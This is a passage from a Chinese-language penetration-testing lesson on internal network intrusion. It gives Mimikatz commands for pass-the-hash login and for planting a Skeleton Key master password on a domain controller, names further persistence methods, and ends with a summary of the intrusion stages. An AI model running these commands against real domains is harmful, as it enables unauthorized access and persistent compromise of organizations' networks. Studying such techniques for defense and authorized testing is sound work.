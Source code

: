 之后就可以用 mimikatz 去连接：

复制代码

```
sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
```

- **Skeleton Key**

Mimikatz 支持安装万能密码，通过以下命令即可将“mimikatz”作为万能密码去连接域控，哪怕域控密码被修改也可使用。

复制代码

```
privilege::debug 

misc::skeleton
```

除此之外，还可以利用 mimikatz 的 mimilib.dll 去记录重启后登录的密码，还有用户 SID History 属性等方式，都可以利用 Mimikatz 工具来实现，它在权限持久化方面提供了不少实用的功能。

### 总结

本课内容较长一些，主要是内网渗透涉及的知识点太多太杂了，限于篇幅，我也只能介绍一些最主要最常用的技术，按内网渗透流程来分顺序讲解：内网信息收集、通信隧道建设、权限提升、横向移动、权限维持。

更多内网渗透技巧，推荐你去看《内网安全攻防：渗透测试实战指南》这本书，其中还有Cobalt Strike这款在内网渗透中常被使用到的渗透测试框架的详细介绍，它是收费版的，另有社区版叫 armitage，你可以花点时间去研究下 Cobalt Strike 的使用，相信对提高内网渗透实战能力会有很大的帮助。